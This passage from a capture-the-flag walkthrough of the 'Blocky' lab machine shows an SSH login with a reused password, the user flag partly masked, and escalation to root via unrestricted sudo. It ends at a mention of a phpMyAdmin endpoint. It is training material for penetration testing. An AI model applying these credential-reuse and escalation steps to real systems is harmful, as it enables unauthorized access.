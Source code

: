 ### `User and Root Flag`
I was able to use the above password for the user `notch`
```
# ssh notch@10.10.10.37
notch@10.10.10.37's password:8YsqfCTnvxAUeduzjNSXe22
notch@Blocky:~$ cat /home/notch/user.txt
94376da********************

notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL

notch@Blocky:~$ sudo su -
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# 

```

Get your root flag.

### `Finding another way through PhpMyAdmin`

So while solving this box, I encounter one endpoint which was `http://blocky.htb/phpmyadmin`
![](Blocky_Web4.png)
